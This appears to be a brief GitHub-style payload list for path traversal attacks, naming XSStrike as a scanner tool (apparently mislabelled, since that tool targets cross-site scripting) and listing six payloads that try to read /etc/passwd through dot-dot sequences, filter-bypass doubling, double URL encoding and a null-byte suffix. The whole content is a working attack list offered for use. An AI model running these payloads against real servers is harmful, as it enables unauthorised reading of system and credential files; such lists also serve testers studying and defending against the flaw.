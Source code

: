 # Path Traversal Attack Payload List:


# Path Traversal Attack Scanner Tools:
. XSStrike


# Payload List :
../../../etc/passwd
/etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
/var/www/images/../../../etc/passwd
../../../etc/passwd%00.png
